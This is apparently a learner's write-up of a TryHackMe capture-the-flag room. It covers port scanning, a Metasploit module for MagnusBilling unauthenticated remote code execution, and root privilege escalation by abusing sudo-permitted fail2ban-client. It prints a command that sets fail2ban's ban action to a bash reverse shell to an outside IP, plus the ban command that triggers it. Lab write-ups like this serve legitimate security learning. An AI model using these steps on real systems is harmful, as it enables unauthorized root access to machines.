





#after almost one year am back to this vm again in tryhackme,the last time i was stuck on gaining access to 
the system.'

RECON : 
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
3306/tcp open  mysql   MariaDB (unauthorized)

Port 80 is running a login in a website 

What it is:

MagnusBilling is a powerful open-source VoIP billing system that lets you manage SIP trunks,
VoIP providers, DIDs, and call routing efficiently.
It's widely used by VoIP businesses, call centers, and service providers to automate billing, monitor call usage, and optimize traffic routes.

I researched for  some exploits and found this metasploit module:
	linux/http/magnusbilling_unauth_rce_cve_2023_30258
Running the exploit gave   a meterpreter shell :


Now having gained access the first thing was to check system information and run a shell on the system.
This gave a standard shell but the system didn't have a bash shell


The first objective was to hunt for the user flag which i easly found in the home directory of the current user:

To obtain the root flag one had to have root priviliges and this made me curoius of what the current user was allowed 
to run as sudo and i got the binary:


In this permission the current user **asterisk** is allowed to run fail2ban which is a open source Intrusion Prevention System used to prevent ssh bruteforce by monitoring logs.
*some nice rabbit hole to follow* Understand how fail2ban works:

Fail2ban will check the logs and detect any bruteforce attempts and it will executes commands (root commands) to ban that ip trying to bruteforce or a given period of time.
Take advatage of the commands being excuted and force fail2ban to execute a reverse shell to our system:
```
./usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/192.168.139.80/4444 0>&1'"
```
The force a ban to the localhost to force the command for reverse shell be excuted:
```
sudo fail2ban-client set sshd banip  127.0.0.1
```


Having our netcat ready and listening for any incoming connection we gained access to the system now as root.


The root flag was a proof of gaining access as the root user and ability to execute any system commands.


- LESSON:
	- Common security misconfiguration can be bypassed compromise systems more than securing them as intended in their use.

